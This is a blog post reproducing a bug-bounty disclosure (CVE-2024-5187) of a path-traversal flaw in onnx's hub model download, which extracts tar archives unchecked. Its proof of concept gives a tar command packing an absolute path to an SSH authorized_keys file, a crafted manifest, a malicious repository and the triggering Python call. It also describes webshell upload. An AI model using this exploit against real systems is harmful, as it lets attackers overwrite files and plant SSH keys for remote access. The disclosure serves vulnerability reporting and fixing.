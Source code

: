 ```yaml
---
layout: post
title:  "Huntr(CVE-2024-5187): Arbitrary File Overwrite in onnx(Accepted,$750)"
date:  2024-04-07 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr(CVE-2024-5187): Arbitrary File Overwrite in onnx

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

The [download_model_with_test_data](https://onnx.ai/onnx/api/hub.html#download-model-with-test-data) function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. This leads directly leads to a high impact regarding the integrity of files. An attacker could also abuse this to impact the availability, by deleting system files, personal files, or application files. Remote code execution is also possible through various means.

The vulnerable function is exposed through the `download_model_with_test_data` function, which is further used in the onnx framework, as well as can be imported easily.

This code snippet shows how the `download_model_with_test_data` function extracts a tar file downloaded from internet without performing any security checks.

```
def download_model_with_test_data(
    model: str,
    repo: str = "onnx/models:main", # change to attacker's repo
    opset: Optional[int] = None,
    force_reload: bool = False,
    silent: bool = False, # set silent to True
) -> Optional[str]:
    selected_model = get_model_info(model, repo, opset)

    local_model_with_data_path_arr = selected_model.metadata[
        "model_with_data_path"
    ].split("/")

    model_with_data_sha = selected_model.metadata["model_with_data_sha"]
    ...
    local_model_with_data_path = join(
        _ONNX_HUB_DIR, os.sep.join(local_model_with_data_path_arr)
    )

    if force_reload or not os.path.exists(local_model_with_data_path):
        os.makedirs(os.path.dirname(local_model_with_data_path), exist_ok=True)
        lfs_url = _get_base_url(repo, True)
        print(f"Downloading {model} to local path {local_model_with_data_path}")
        _download_file( # download model from github repository
            lfs_url + selected_model.metadata["model_with_data_path"],
            local_model_with_data_path,
        )
    else:
        print(f"Using cached {model} model from {local_model_with_data_path}")

    with open(local_model_with_data_path, "rb") as f:
        model_with_data_bytes = f.read()

    with tarfile.open(local_model_with_data_path) as model_with_data_zipped:
        # FIXME: Avoid index manipulation with magic numbers
        local_model_with_data_dir_path = local_model_with_data_path[
            0 : len(local_model_with_data_path) - 7
        ]
        model_with_data_zipped.extractall(local_model_with_data_dir_path) # just extract without any security checks

    return model_with_data_path
```

The Python documentation explains us that tarfiles may also have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar.gz /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar.gz` as onnx model to his own github repository. Besides, create file `ONNX_HUB_MANIFEST.json` with tar file path(`model_with_data_path`) and sha256 value(`model_with_data_sha`).

Create malicious model repo:

```
git lfs track "*.gz"
git add .
git commit -m 'add gz lfs models'
git push
```

the `ONNX_HUB_MANIFEST.json` metadata file example:

```
[
    {
        "model": "MNIST",
        "model_path": "validated/mnist-8.onnx",
        "onnx_version": "1.3",
        "opset_version": 8,
        "metadata": {
            "model_sha": "",
            "model_bytes": 26454,
            "tags": [
                "vision",
                "classification",
                "mnist"
            ],
            "io_ports": {
                "inputs": [
                    {
                        "name": "Input3",
                        "shape": [
                            1,
                            1,
                            28,
                            28
                        ],
                        "type": "tensor(float)"
                    }
                ],
                "outputs": [
                    {
                        "name": "Plus214_Output_0",
                        "shape": [
                            1,
                            10
                        ],
                        "type": "tensor(float)"
                    }
                ]
            },
            "model_with_data_path": "validated/hack.tar.gz",
            "model_with_data_sha": "786bb632aab30bb574f7f2bab991c56c7707f8d224845f85a16bce32e7980cac",
            "model_with_data_bytes": 26751
        }
    }
]
```
I have create one malicous repo for testing: [https://github.com/sunriseXu/onnx](https://github.com/sunriseXu/onnx)

If anyone now downloads model from online github repository, and `download_model_with_test_data` will extract the malicous tar file and overwrite files specified in tarfile by absolute path silently.

```
from onnx import ModelProto, hub
hub.download_model_with_test_data("mnist",repo="sunriseXu/onnx",force_reload=True,silent=True)
```

```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa xxx hacker@test.com
```

tested in google colab: [https://colab.research.google.com/drive/1m1iJcfp-dETTr013HyYaYJsdetBa-7YA?usp=sharing](https://colab.research.google.com/drive/1m1iJcfp-dETTr013HyYaYJsdetBa-7YA?usp=sharing)

![poc1](https://raw.githubusercontent.com/sunriseXu/onnx/main/img/poc.png)

![poc2](https://raw.githubusercontent.com/sunriseXu/onnx/main/img/poc2.png)

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

SSH Access
On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

Web Servers
On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/onnx/onnx/blob/4128a09009aa67622c6308c82fe4199813a71682/onnx/hub.py#L369](https://github.com/onnx/onnx/blob/4128a09009aa67622c6308c82fe4199813a71682/onnx/hub.py#L369)
